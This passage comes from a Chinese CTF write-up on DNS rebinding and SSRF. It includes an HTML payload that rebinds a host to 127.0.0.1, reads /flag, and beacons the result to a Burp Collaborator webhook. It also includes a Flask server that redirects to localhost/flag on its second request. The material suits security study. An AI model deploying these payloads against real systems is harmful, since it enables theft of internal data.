 index.html

```html
<html>
    <script>
        const host = "http://7f000001.6523726b.rbndr.us:2301";
        let count = 0;

        setInterval(function(){
            if (count != 100) {
                var req = new XMLHttpRequest();
                req.open('GET', `${host}/flag`, false);
                req.send(null);
                if(req.status == 200)
                {
                    navigator.sendBeacon("https://p1rdfk5o171n2esbrk8mdxx58wer2g.burpcollaborator.net/", req.responseText)
                }
                count ++;
            }
        }, 20000);
    </script>
</html>
```

当解析到我们自己的恶意server时，index.html页面上的js脚本会不停的发送XHR请求到`${host}/flag`，某一个时刻恰好host被解析成127.0.0.1，就可以得到flag并把结果发送到我们自己的webhook地址了

### [SEETF 2022]Super Secure Requests Forwarder

```python
from flask import Flask, redirect

app = Flask(__name__)

i = 0

@app.route('/')
def index():
    global i

    if i == 0:
        i += 1
        return 'Nothing to see here'

    else:
        return redirect('http://localhost/flag')

if __name__ == '__main__':
    app.run()
```

## 实战思路
